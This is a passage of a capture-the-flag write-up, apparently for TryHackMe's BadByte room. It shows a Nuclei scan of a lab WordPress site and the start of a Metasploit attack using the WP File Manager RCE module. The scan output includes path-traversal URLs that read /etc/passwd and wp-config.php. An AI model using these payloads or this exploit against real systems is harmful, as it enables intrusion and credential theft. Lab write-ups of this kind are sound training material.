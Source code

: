 We can use [[Nuclei]] to scan the target for vulnerabilities :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/BadByte]
└─$ nuclei -u http://127.0.0.1:8080

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.4.6

                projectdiscovery.io

'[CVE-2020-25213]' [http] [critical] http://127.0.0.1:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php

'[CVE-2020-11738]' [http] [high] http://127.0.0.1:8080/wp-admin/admin-ajax.php?action=duplicator_download&file=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

'[CVE-2020-11738]' [http] [high] http://127.0.0.1:8080/wp-admin/admin-ajax.php?action=duplicator_download&file=%2F..%2Fwp-config.php

[metatag-cms] [http] [info] http://127.0.0.1:8080 ["WordPress 5.3.2"]
[wordpress-theme-detect:twentytwentyone] [http] [info] http://127.0.0.1:8080
[addeventlistener-detect] [http] [info] http://127.0.0.1:8080
[apache-detect] [http] [info] http://127.0.0.1:8080 ["Apache/2.4.41 (Ubuntu)"]
[wordpress-login] [http] [info] http://127.0.0.1:8080/wp-login.php
[apache-server-status] [http] [low] http://127.0.0.1:8080/server-status
[wp-license-file] [http] [info] http://127.0.0.1:8080/license.txt
[wordpress-detect:version_by_css] [http] [info] http://127.0.0.1:8080/wp-admin/install.php ["5.3.2"]
[wordpress-readme-file] [http] [info] http://127.0.0.1:8080/readme.html

```

[[CVE-2020-11738]]    Directory Traversal Vulnerability

[[CVE-2020-25213]]    RCE  

## Metasploit 

We use [[Metasploit]] to search and set the [[Exploit]] and run it.

You have to set RHOSTS as 127.0.0.1 ,rport as 8080 , LHOST as your tun0 IP and run the exploit. If everything is fine, you will be prompted with the meterpreter session.

```bash
msf6 > search cve-2020-25213                                                                                                                                                            
                                                                                                                                                                                          
Matching Modules                                                                                                                                                                          
================                                                                                                                                                                          
                                                                                                                                                                                          
   #  Name                                    Disclosure Date  Rank    Check  Description                                                                                                 
   -  ----                                    ---------------  ----    -----  -----------                                                                                                 
   0  exploit/multi/http/wp_file_manager_rce  2020-09-09       normal  Yes    WordPress File Manager Unauthenticated Remote Code Execution                                                
                                                                                                                                                                                          
                                                                                                                                                                                          
Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/wp_file_manager_rce
```